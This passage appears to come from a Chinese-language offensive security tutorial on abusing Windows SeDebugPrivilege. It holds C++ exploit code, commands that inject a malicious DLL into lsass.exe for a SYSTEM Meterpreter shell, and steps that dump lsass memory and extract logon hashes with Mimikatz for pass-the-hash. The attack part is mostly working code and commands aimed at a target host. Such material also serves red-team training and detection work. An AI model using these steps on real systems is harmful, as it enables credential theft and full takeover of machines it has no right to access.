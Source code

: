 ```c++
        wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
        return 0;
    }
    // Enable SeDebugPrivilege for the current process token.
    if (EnableTokenPrivilege(hToken, SE_DEBUG_NAME))
    {
        if (ExploitSeDebugPrivilege(expType, lpProcessName, lpDllFileName, lpOutputFile))
        {
            return 1;
        }
    }
}
```

将编译并生成好的 SeBackupPrivilege.exe 上传到目标主机，执行以下命令，将恶意的 DLL 注入到 lsass.exe 进程中，如下图所示，成功获得 SYSTEM 权限的 Meterpreter。

```powershell
SeDebugPrivilege.exe -e "Injection" -p "lsass.exe" -m "C:\Users\Marcus\shell.dll"
```

![image-20230215105701491](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-2eadc68005fe2c157924e6af6342f334a4c1d587.png)

执行以下命令，将 lsass.exe 进程的内存转储到 lsass.dmp 文件中，如下图所示。

```powershell
SeDebugPrivilege.exe -e "Minidump" -p "lsass.exe" -o ".\lsass.dmp"
```

![image-20230215151405876](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-d85d40d256ed2e0b187263bdef6dedc833ce3ea3.png)

将 lsass.dmp 下载到本地，通过 Mimikatz 离线解析并提取出已登陆的用户哈希，如下图所示。

```c++
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```

![image-20230215150653195](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-f79a691a8b72eb9ce877e3b3df997be5dc81036b.png)

得到的管理员用户哈希可以用来执行哈希传递，并获取系统管理权限。